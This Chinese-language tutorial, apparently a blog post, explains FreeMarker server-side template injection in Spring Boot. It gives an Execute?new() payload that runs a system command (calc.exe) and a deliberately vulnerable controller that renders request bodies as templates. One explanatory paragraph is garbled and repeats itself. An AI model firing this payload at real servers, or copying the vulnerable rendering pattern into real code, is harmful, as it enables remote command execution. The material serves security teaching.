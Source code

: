     
    
    <!DOCTYPE html><html><head>    <meta charset="UTF-8">    <title>${title}</title></head><body>    <h1>${message}</h1></body></html>

  

其中是模板引擎中的一个表达式，用于在模板中显示后端传递给模板的变量的值。我们需要在后端代码中将一个变量赋值给模板中的是FreeMarker模板引擎中的一个表达式，用于在模板中显示后端传递给模板的变量的值。我们需要在后端代码中将一个变量赋值给模板中的{}表达式，然后在模板渲染时，该表达式会被解析和渲染为变量的实际值。

  

![](https://gitee.com/fuli009/images/raw/master/public/20230619163528.png)

  

  

此外，Freemarker模板还支持内置函数，所以我们可以通过freemarker.template.utility
里的一个Execute类构造恶意代码如下：

  *   * 

    
    
    <#assign value="freemarker.template.utility.Execute"?new()> ${value("cmd /c calc.exe")}

*左右滑动查看更多  

  

通过调用Execute类的new方法来创建一个Execute对象。这个Execute对象可以用来执行任意的系统命令。

  

下面我们通过代码演示一下真实环境下SSTI：

  

创建spring boot项目并在pom文件添加依赖：

  *   *   *   * 

    
    
    <dependency><groupId>org.springframework.boot</groupId><artifactId>spring-boot-starter-freemarker</artifactId></dependency>

  

*左右滑动查看更多

  

后端代码：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    package com.example.demo;  
    import freemarker.cache.StringTemplateLoader;import freemarker.core.TemplateClassResolver;import freemarker.template.Configuration;import freemarker.template.Template;import freemarker.template.TemplateException;import org.springframework.stereotype.Controller;import org.springframework.web.bind.annotation.RequestBody;import org.springframework.web.bind.annotation.RequestMapping;import java.io.IOException;import java.io.StringWriter;import java.util.LinkedHashMap;import java.util.Map;  
    @Controllerpublic class SSTIdemo {    @RequestMapping("/Template")    public String importTemplate (@RequestBody String a) throws IOException, TemplateException {        Configuration configuration = new Configuration(Configuration.getVersion());        StringTemplateLoader stringTemplateLoader = new StringTemplateLoader();        Template template;        Map data = new LinkedHashMap();        StringWriter stringWriter = new StringWriter();  
            stringTemplateLoader.putTemplate("test.ftl", a);// 将模板内容添加到StringTemplateLoader中        configuration.setTemplateLoader(stringTemplateLoader);  
            template = configuration.getTemplate("test.ftl");        template.process(data, stringWriter);//渲染模板        System.out.println(stringWriter.toString());        return stringWriter.toString();    }}
